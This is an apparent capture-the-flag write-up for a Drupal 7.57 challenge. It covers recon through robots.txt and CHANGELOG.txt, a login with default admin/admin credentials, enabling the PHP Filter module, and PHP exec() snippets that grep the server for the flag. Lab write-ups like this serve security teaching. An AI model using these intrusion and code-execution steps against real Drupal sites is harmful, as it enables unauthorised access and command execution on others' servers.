








# Our new site! (exploit) (author: snn)

## Description

```shell
We already started thinking about 2024! Our test site is already up and running.

Please help us and contribute!

username: user password: woAheZiUWZPW9wEYKYG
```

## Task analysis & solution

A docker instance is provided by the CyberXmas infrastructure with an address and a port. That instance is being spun up for a limited amount of time, until it needs to be reverted again. Let's connect to it with SSH:

```shell
└ $ ssh user@10.10.8.61 -p 34155
kex_exchange_identification: Connection closed by remote host
└ $ ssh user@10.10.8.61 -p 34155 -v
OpenSSH_for_Windows_8.1p1, LibreSSL 3.0.2
debug1: Connecting to 10.10.8.61 [10.10.8.61] port 34155.
debug1: Connection established.
debug1: identity file C:\\Users\\snn/.ssh/id_rsa type -1
debug1: identity file C:\\Users\\snn/.ssh/id_rsa-cert type -1
debug1: identity file C:\\Users\\snn/.ssh/id_dsa type -1
debug1: identity file C:\\Users\\snn/.ssh/id_dsa-cert type -1
debug1: identity file C:\\Users\\snn/.ssh/id_ecdsa type -1
debug1: identity file C:\\Users\\snn/.ssh/id_ecdsa-cert type -1
debug1: identity file C:\\Users\\snn/.ssh/id_ed25519 type 3
debug1: identity file C:\\Users\\snn/.ssh/id_ed25519-cert type -1
debug1: identity file C:\\Users\\snn/.ssh/id_xmss type -1
debug1: identity file C:\\Users\\snn/.ssh/id_xmss-cert type -1
debug1: Local version string SSH-2.0-OpenSSH_for_Windows_8.1
debug1: kex_exchange_identification: banner line 0: HTTP/1.1 400 Bad Request
debug1: kex_exchange_identification: banner line 1: Date: Tue, 26 Dec 2023 21:21:15 GMT
debug1: kex_exchange_identification: banner line 2: Server: Apache/2.4.10 (Debian)
debug1: kex_exchange_identification: banner line 3: Content-Length: 302
debug1: kex_exchange_identification: banner line 4: Connection: close
debug1: kex_exchange_identification: banner line 5: Content-Type: text/html; charset=iso-8859-1
debug1: kex_exchange_identification: banner line 6:
debug1: kex_exchange_identification: banner line 7: <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
debug1: kex_exchange_identification: banner line 8: <html><head>
debug1: kex_exchange_identification: banner line 9: <title>400 Bad Request</title>
debug1: kex_exchange_identification: banner line 10: </head><body>
debug1: kex_exchange_identification: banner line 11: <h1>Bad Request</h1>
debug1: kex_exchange_identification: banner line 12: <p>Your browser sent a request that this server could not understand.<br />
debug1: kex_exchange_identification: banner line 13: </p>
debug1: kex_exchange_identification: banner line 14: <hr>
debug1: kex_exchange_identification: banner line 15: <address>Apache/2.4.10 (Debian) Server at 172.17.0.6 Port 80</address>
debug1: kex_exchange_identification: banner line 16: </body></html>
kex_exchange_identification: Connection closed by remote host
└ $
```
No useful results here, so I decided to abandon SSH for the time being.

Let's give it a try in a web browser:



Good! As we can see we are in some page that was developed by 
`Drupal`

A quick search online provides the following information - `Drupal is a free and open-source web content management system written in PHP and distributed under the GNU General Public License. Wikipedia`

So we are in the CMS site and as the hint in the challenge sais - `Please help us and contribute!`

How about we try to find some more information about Drupal in home page's source...

```web
<meta name="Generator" content="Drupal 7 (http://drupal.org)">
```

From here we understand that we are dealing with Drupal 7.

Let's see whether we have a robots.txt file, for those pesky web crawlers at
http://10.10.8.61:34155/robots.txt (34155 was the port at the time)


```web
#
# robots.txt
#
# This file is to prevent the crawling and indexing of certain parts
# of your site by web crawlers and spiders run by sites like Yahoo!
# and Google. By telling these "robots" where not to go on your site,
# you save bandwidth and server resources.
#
# This file will be ignored unless it is at the root of your host:
# Used:    http://example.com/robots.txt
# Ignored: http://example.com/site/robots.txt
#
# For more information about the robots.txt standard, see:
# http://www.robotstxt.org/robotstxt.html

User-agent: *
Crawl-delay: 10
# CSS, JS, Images
# Files
...
Disallow: /CHANGELOG.txt
...

```
We can see there's a diallowed CHANGELOG.txt file that we might be interested in:

```url
http://10.10.8.61:34155/CHANGELOG.txt
```

```web
Drupal 7.57, 2018-02-21
-----------------------
- Fixed security issues (multiple vulnerabilities). See SA-CORE-2018-001.

Drupal 7.56, 2017-06-21
-----------------------
- Fixed security issues (access bypass). See SA-CORE-2017-003.

Drupal 7.55, 2017-06-07
```

In the changelog, we can see the exact Drupal version - 7.57, released on 2018-02-21

A quick online search yielded quite a bit of possible Drupal exploits. I did try many of those, namely the Drupalgeddon ones with metasploit, but without success..




Anyway... most of the articles were about remote code execution with a php module. However in our case php is not even installed. 

I quickly realized that I need a way to install PHP on the site and that meant I needed admin access. So I did a quick search online for "Drupal 7 admin explot", which yielded these two results:



Since I knew that SQL is of no interest, I put more effort in the second result: 
[Drupal 7x exploitation](https://medium.com/@yasmeena_rezk/drupal-7-x-exploitation-7eb1c7cfa4dc)

I got really excited about this line here, which gave me some ideas:

```python
# python2.7  drupalgeddon.py -t <url> -u <username>-p <password>
python2.7  drupalgeddon.py -t http://drupal-qa.ex.com -u admin -p admin
```

Regardless of the fact that the article was about Drupal 7.30, I 
immediately decided to give it a try with admin/admin for access -> 

:voila:



Silly me, I should've tried these first! Anyway, now for fun part:
1. Go to Modules
2. Enable PHP Filter
3. Save Configuration:



Now go and add an article:


When you click on preview button we can see that our command has executed some php code:


It looks like we are in the /var/www/html folder, so why not search for a file containing the flag, which should start with ***MilestoneCTF***? I decided to start the search from /var/www

```code
<?php
// outputs the username that owns the running php/httpd process
// (on a system with the "whoami" executable in the path)
$output=null;
$retval=null;
exec('grep -Rnw "/var/www" -e "MilestoneCTF"', $output, $retval);
echo "Returned with status $retval and output:\n";
print_r($output);
?>
```

We have found a file **/var/www/html/sites/default/files/.ht.sqlite** that contains ***MilestoneCTF***:


Let's put grep to work here:

```php
<?php
// outputs the username that owns the running php/httpd process
// (on a system with the "whoami" executable in the path)
$output=null;
$retval=null;

exec('strings /var/www/html/sites/default/files/.ht.sqlite | grep -m 1 -e "MilestoneCTF"', $output, $retval);
echo "Returned with status $retval and output:\n";
print_r($output);
?>
```


> The flag was inside the sqlite database in plain text: ***MilestoneCTF{this-is-a-really-nice-flag}***
